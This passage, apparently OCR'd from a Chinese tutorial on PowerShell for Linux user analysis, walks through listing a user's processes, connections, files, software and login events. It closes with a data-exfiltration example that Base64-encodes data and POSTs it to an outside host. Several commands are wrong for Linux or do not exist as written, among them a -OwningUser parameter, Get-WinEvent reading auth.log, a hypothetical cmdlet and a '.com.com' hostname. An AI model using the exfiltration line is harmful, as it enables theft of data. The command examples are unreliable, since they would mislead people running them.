 这个脚本列出 `andrewblyth` 用户正在运行的进程。

## 网络连接

在 Linux 上使用 PowerShell 可以提供有关与用户关联的网络连接的见解。一个示例是列出特定用户的网络连接：

```
 # Get network connections for a specific user
Get-NetTCPConnection -OwningUser "andrewblyth"
```

此命令显示由用户`andrewblyth`拥有的 TCP 连接的信息。

## 文件和目录访问

分析涉及了解用户的文件和目录访问。PowerShell 可用于列出用户可以访问的文件和目录：

```
 # List files and directories for a specific user
Get-ChildItem -Path /home/andrewblyth
```

此脚本提供了用户家目录`andrewblyth`中文件和目录的列表。

## 安装的软件

PowerShell 可以查询 Linux 系统上安装的软件，允许对用户的软件环境进行分析。以下是使用假设的`Get-InstalledSoftware` cmdlet 的示例：

```
 # Get installed software for a specific user
Get-InstalledSoftware -User "andrewblyth"
```

此 cmdlet 将检索为用户`andrewblyth`安装的软件列表。

## 最近的活动

在 Linux 上使用 PowerShell 可以查询系统日志以收集有关用户最近活动的信息。一个示例是检索用户的最近登录事件：

```
 # Get recent login events for a specific user
Get-WinEvent -LogName auth.log -FilterXPath "*[System[(EventID=1) and EventData[Data[@Name='user']='$andrewblyth]]]" -MaxEvents 10
```

此示例从`auth.log`文件中检索用户`andrewblyth`的最后 10 个身份验证事件。

## 数据外泄

PowerShell 可以用于在 Linux 上进行数据外泄，使用各种技术。一种常见方法是将数据编码为 Base64 并通过网络发送。以下是一个假设的示例：

```
 # Encode and send data to a remote server
$data = "SensitiveData"
$encodedData = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($data))
Invoke-WebRequest -Uri "https://snpowcapcyber.com.com/upload.php" -Method POST -Body $encodedData
```
